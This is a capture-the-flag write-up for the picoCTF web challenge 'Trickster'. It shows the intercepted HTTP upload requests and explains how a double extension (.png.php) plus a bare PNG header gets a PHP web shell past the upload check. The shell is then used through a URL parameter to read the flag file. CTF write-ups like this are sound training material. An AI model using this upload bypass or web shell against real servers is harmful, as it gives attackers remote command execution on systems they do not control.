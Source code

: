 # Challange Info

Name : Trickster

Difficulty : Medium

Category : Web Exploitation

Link : https://play.picoctf.org/practice/challenge/445?category=1&page=2

# Writeup

Navigating the webapp http://atlas.picoctf.net:52670/.

The wepapp provides file upload functionality.

Intercepting the file upload request after providing valid png file.

```
POST / HTTP/1.1

Host: atlas.picoctf.net:52670

Content-Length: 1621835

Cache-Control: max-age=0

Origin: http://atlas.picoctf.net:52670

Content-Type: multipart/form-data; boundary=----WebKitFormBoundary2BkeBqtFYUCMEiB7

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Referer: http://atlas.picoctf.net:52670/

Accept-Encoding: gzip, deflate, br

Accept-Language: en-US,en;q=0.9

sec-gpc: 1

Connection: keep-alive



------WebKitFormBoundary2BkeBqtFYUCMEiB7

Content-Disposition: form-data; name="file"; filename="test.png"

Content-Type: image/png



PNG

<png file data>
```

Changing `filename="test.png` to `filename="test.png.php`.

And remove all png data after first line of png header as the server checks for php header after file is uploaded.

After all changes the request should look like this.

```
POST / HTTP/1.1

Host: atlas.picoctf.net:52712

Content-Length: 869

Cache-Control: max-age=0

Origin: http://atlas.picoctf.net:52712

Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryrnVv0sWMNLhWGIPR

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Referer: http://atlas.picoctf.net:52712/

Accept-Encoding: gzip, deflate, br

Accept-Language: en-US,en;q=0.9

sec-gpc: 1

Connection: keep-alive



------WebKitFormBoundaryrnVv0sWMNLhWGIPR

Content-Disposition: form-data; name="file"; filename="pay.png.php"

Content-Type: image/png



PNG

<First line of png header>
<?php system($_GET['cmd'], $retval); echo $retval; ?>
------WebKitFormBoundaryrnVv0sWMNLhWGIPR--
```

Forward this request and file will be uploaded.

Now navigate to `http://atlas.picoctf.net:52670/uploads/pay.png.php?cmd=cat /var/www/html/GQ4DOOBVMMYGK.txt`

`Note : I found "/var/www/html/GQ4DOOBVMMYGK.txt" by using "find / flag" command which revealed all files and to the very end this file caught my eye.`

This will reveal the flag.
